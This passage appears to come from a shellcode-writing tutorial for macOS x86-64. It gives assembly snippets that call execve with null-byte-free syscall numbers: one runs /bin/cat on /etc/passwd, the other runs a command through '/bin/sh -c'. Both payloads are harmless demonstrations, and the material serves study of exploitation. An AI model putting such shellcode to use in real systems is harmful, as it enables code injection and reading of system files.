 ```armasm
    push    59      ; put 59 on the stack (execve syscall)
    pop     rax     ; pop it to RAX
    bts     rax, 25 ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
    syscall         ; Make the syscall

section .data
cat_path:      db "/bin/cat", 0
passwd_path:   db "/etc/passwd", 0
```

#### Invoke command with sh

```armasm
bits 64
section .text
global _main

_main:
    ; Prepare the arguments for the execve syscall
    sub rsp, 32           ; Create space on the stack

    ; Argument array
    lea rdi, [rel touch_command]        
    push rdi                      ; push &"touch /tmp/lalala"   
    lea rdi, [rel sh_c_option]    
    push rdi                      ; push &"-c"
    lea rdi, [rel sh_path]
    push rdi                      ; push &"/bin/sh"   

    ; execve syscall
    mov rsi, rsp                  ; rsi = pointer to argument array
    xor rdx, rdx                  ; rdx = NULL (no env variables)
    push    59                    ; put 59 on the stack (execve syscall)
    pop     rax                   ; pop it to RAX
    bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
    syscall

_exit:
    xor rdi, rdi                  ; Exit status code 0
    push    1                     ; put 1 on the stack (exit syscall)
    pop     rax                   ; pop it to RAX
    bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
    syscall

section .data
sh_path:        db "/bin/sh", 0
sh_c_option:    db "-c", 0
touch_command:  db "touch /tmp/lalala", 0
```
